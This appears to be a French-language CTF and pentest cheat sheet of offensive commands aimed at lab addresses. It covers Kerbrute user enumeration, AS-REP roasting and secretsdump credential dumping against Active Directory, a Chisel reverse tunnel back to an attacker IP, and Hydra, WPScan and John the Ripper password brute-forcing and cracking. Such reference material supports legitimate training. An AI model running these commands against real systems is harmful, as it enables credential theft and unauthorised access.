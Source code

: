 - [Active Directory](#Active-Directory)
  - [Kerbrute](#Kerbrute)
  - [GetNPUUsers.py](#GetNPUUsers.py)
  - [Secretsdump.py](#Secretsdump.py)
- [Binwalk](#Binwalk)
- [Chisel](#Chisel)
  -[Port distant vers port local](https://github.com/LoKyOnTheCode/Securite-Informatique-et-CTF/blob/main/A%20bit%20of%20everything/Commands/DejaVu.md#port-distant-vers-port-local)
- [Hydra](#Hydra)
  - [WEB](#WEB)
  - [SSH](#SSH)
  - [FTP](#FTP)   
- [JohnTheRipper](#JohnTheRipper)
- [Steghide](#Steghide)
- [WPSCAN](#WPSCAN)
- [7z Deziper avec password](#7z-Deziper-avec-password)


## Active Directory

### Kerbrute
```
kerbute userenum --dc 10.10.117.125 -d spookysec.local user_list.txt
```
### GetNPUsers.py
```
python /opt/impacket/examples/GetNPUsers.py -no-pass -usersfile user.txt -dc-ip 10.10.117.125 spookysec.local/
```
### Secretsdump.py
```
python3 /opt/impacket/examples/secretsdump.py -just-dc <user>@10.10.117.125
```

<br>
<br>

## Binwalk

```
binwalk <image> -e
```
<br>
<br>

## Chisel

```
chisel server -p 8001 --reverse
```
```
./chisel_amd64 client 10.50.111.37:8001 R:socks &
```
#### Port distant vers port local

```
./chisel.exe client 10.14.50.100:8001 R:2805:10.10.2.0:2805
```
`10.14.50.100`: Attacker IP
<br>
`8001`: Port établie lors de la création du serveur
<br>
<br>
`2805:10.10.2.0:2805` -> Bind le port 2805 de la machine Attacker au port 2805 de la machine distante 

<br>
<br>

## Hydra
### WEB
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.0.156 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
```
### SSH
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.0.156
```
### FTP
```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ftp://<ip>
```
<br>

## JohnTheRipper

```
zip2john file.zip > zip.hash 
john file.zip zip.hash

```
```
zip2john
ssh2john
rar2john
```

<br>

## Steghide

```
steghide extract -sf image.jpg
```

<br>

## WPSCAN

```
wpscan --url 10.10.188.11 -U kwheel -P /usr/share/wordlists/rockyou.txt
```
Fonctionne aussi avec une liste de user pour l'option `-U`

<br>

## 7z Deziper avec password

```
7z e file.zip
```
